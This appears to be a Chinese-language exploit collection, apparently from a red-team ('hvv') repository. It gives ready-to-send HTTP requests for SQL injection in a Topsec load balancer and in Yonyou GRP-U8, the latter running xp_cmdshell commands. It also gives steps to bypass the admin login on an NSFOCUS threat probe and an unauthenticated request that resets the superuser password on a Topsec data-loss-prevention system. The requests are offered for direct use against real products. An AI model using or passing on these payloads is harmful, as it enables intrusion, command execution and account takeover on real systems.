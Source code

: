 ### 天融信TopApp-LB 负载均衡系统Sql注入漏洞

![](images/hvv_25.png)
```angular2
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
 
t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```

### 用友GRP-u8 注入
![](images/hvv_26.png)

```angular2
POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 341
Connection: Keep-Alive
Cache-Control: no-cache

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'whoami'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

### 绿盟UTS综合威胁探针管理员任意登录

> 逻辑漏洞,利用方式参考`（https://www.hackbug.net/archives/112.html）`
> 1、修改登录数据包 `{"status":false,"mag":""} -> {"status":true,"mag":""}`
> 2、`/webapi/v1/system/accountmanage/account`接口逻辑错误泄漏了管理员的账户信息包括密码（md5）
> 3、再次登录,替换密码上个数据包中md5密码。
> 4、登录成功。

![](images/hvv_27.png)


### 天融信数据防泄漏系统越权修改管理员密码
> 无需登录权限,由于修改密码处未校验原密码,且`/?module=auth_user&action=mod_edit_pwd`
接口未授权访问,造成直接修改任意用户密码。
> 默认superman账户uid为1。
```
POST /?module=auth_user&action=mod_edit_pwd 
Cookie: username=superman;

uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```
![](images/hvv_28.png)

